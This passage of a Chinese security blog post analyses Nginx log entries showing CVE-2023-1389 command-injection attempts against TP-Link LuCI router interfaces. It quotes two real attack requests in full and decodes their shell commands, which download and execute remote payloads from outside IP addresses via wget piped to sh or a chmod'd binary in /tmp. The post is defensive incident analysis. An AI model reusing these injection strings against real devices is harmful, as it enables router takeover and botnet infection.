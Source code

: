 #  Nginx日志分析实战：揭露4种CVE-2023-1389攻击手法，加固网站安全屏障   
原创 满戈  核点点   2024-06-19 23:26  
  
在上一篇[自给自足的智慧：打造轻量级Nginx日志处理系统](http://mp.weixin.qq.com/s?__biz=MzU3MDEwMjk2MQ==&mid=2247485071&idx=1&sn=79d3ecd6afaa2bee51813eb2fe437882&chksm=fcf5c351cb824a47ce38c97b278277d22dc463e0ed0bc6cfabe6b2cd5c7b5e6167b0bba9fbd7&scene=21#wechat_redirect)  
  
中提到了自开发了可以实现24小时自动收集nginx网站日志的工具，在对日志进行走查的过程中，看到了200多条明显的攻击日志很相识，利用的是同一个漏洞，简单分析如下。  
  
**/cgi-bin/luci/;stok=/locale?form=country&operation=write&country=$(id%3E%60wget+http%3A%2F%2F103.149.28.141%2Ft+-O-+|+sh%60)**  
  
这条命令字符串看起来像是尝试利用Web界面的漏洞进行攻击，特别是针对使用了LuCI（OpenWrt项目中常用的Web界面）的设备。这里简单解析一下这个命令的意图和构成部分：  
- $(id%3E%60wget+http%3A%2F%2F103.149.28.141%2Ft+-O-+|+sh%60)  
：这是攻击的核心部分，使用了命令注入技术。其中 %3E  
 是URL编码的 >  
 符号，%60  
 是URL编码的反引号（`），用于在shell中执行命令。  
  
- 使用wget  
从指定的远程URL（http://103.149.28.141/t  
）下载一个文件（-O-  
 表示输出到标准输出，即直接在终端显示或进一步处理）。  
  
- 然后通过管道|  
将下载的内容传递给sh  
执行，这意味着下载的文件很可能是包含恶意指令的脚本。  
  
- id >   
 是一个无害的前缀，用来误导或填充命令。  
  
- wget http://103.149.28.141/t -O- | sh  
 是实际要执行的恶意命令，它做了两件事：  
  
综上所述，这是一个典型的Web命令注入攻击尝试，旨在通过LuCI界面的漏洞，从远程服务器下载并执行恶意代码，从而控制系统或进一步渗透网络。遇到这种情况，应立即采取措施，比如检查系统日志、更新系统及应用补丁、强化Web接口的安全配置，并考虑通报相关安全团队或供应商。  
  
**/cgi-bin/luci/;stok=/locale?form=country&operation=write&country=$(id%3E%60cd+%2Ftmp%3B+rm+-rf+shk%3B+wget+http%3A%2F%2F66.187.6.203%2Fshk%3B+chmod+777+shk%3B+.%2Fshk+tplink%3B+rm+-rf+shk%60)**  
  
这个命令字符串同样是一种恶意的Web请求，旨在利用潜在的命令注入漏洞，通过LuCI Web界面在目标设备上执行一系列危险的操作。具体解析如下：  
  
整体结构与之前解析的相似，利用了/cgi-bin/luci/;stok=  
作为LuCI Web界面的入口点，尝试通过修改“国家”设置(locale  
)的表单提交来执行命令。  
  
$(...)  
内的内容是精心构造的命令注入代码，进行了URL编码以绕过简单的安全检查。解码后的命令为：  
```
cd /tmp; 
rm -rf shk; 
wget http://66.187.6.203/shk; chmod 777 shk; 
./shk tplink; 
rm -rf shk
```  
- 这串命令执行了以下操作：  
  